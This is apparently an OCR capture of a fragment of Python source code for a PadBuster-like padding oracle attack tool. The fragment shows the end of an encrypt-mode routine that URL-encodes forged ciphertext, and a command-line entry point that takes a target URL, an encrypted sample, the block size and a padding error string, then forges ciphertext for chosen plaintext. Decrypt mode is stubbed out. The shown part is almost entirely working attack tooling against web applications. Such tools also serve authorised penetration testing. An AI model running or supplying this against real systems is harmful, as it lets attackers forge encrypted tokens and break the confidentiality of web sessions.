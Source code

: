         # Return the final forged ciphertext as an encoded string
        final_enc = self.my_encode(forged_cipher, self.encoding_format)
        # Possibly URL-escape if needed
        if not self.no_encode_option:
            final_enc = urllib.parse.quote(final_enc.decode('ascii'), safe='').encode('ascii')

        return final_enc

def main():
    parser = argparse.ArgumentParser(description="PadBuster-like script in Python with encryption forging mode.")
    parser.add_argument("--url", required=True, help="Target URL containing the ciphertext")
    parser.add_argument("--encrypted-sample", required=True, help="Encrypted sample that also appears in the request")
    parser.add_argument("--block-size", type=int, required=True, help="Block size (e.g. 16 for AES)")
    parser.add_argument("--error", help="Padding error string if known")
    parser.add_argument("--encoding", type=int, default=0, help="0=Base64,1=HexLower,2=HexUpper,3=.NET UrlToken,4=WebSafe B64")
    parser.add_argument("--verbose", action="store_true", help="Verbose output")
    parser.add_argument("--log", action="store_true", help="Enable file logging (not fully implemented here)")
    parser.add_argument("--no-iv", action="store_true", help="Sample does not contain IV (prepend zeros).")
    parser.add_argument("--no-encode", action="store_true", help="Do not URL-encode the manipulated ciphertext.")
    parser.add_argument("--plaintext", help="The plaintext you want to encrypt/forge.")
    args = parser.parse_args()

    padbuster = PadBuster(
        url=args.url,
        encrypted_sample=args.encrypted_sample,
        block_size=args.block_size,
        error_string=args.error,
        encoding_format=args.encoding,
        verbose=args.verbose,
        log_files=args.log,
        no_iv=args.no_iv,
        no_encode_option=args.no_encode
    )

    if args.plaintext:
        # ENCRYPT MODE
        plaintext_bytes = args.plaintext.encode('ascii')  # or handle other enc
        print("[+] Starting 'Encrypt Mode' via padding oracle forging.")
        forged = padbuster.encrypt_mode(plaintext_bytes)
        print(f"[=] Final Forged Cipher: {forged.decode('ascii')}")
    else:
        # DECRYPT MODE (not fully shown)
        print("[+] No --plaintext was provided, so we'd do normal decrypt scenario...")
        # padbuster.decrypt_mode()
        pass
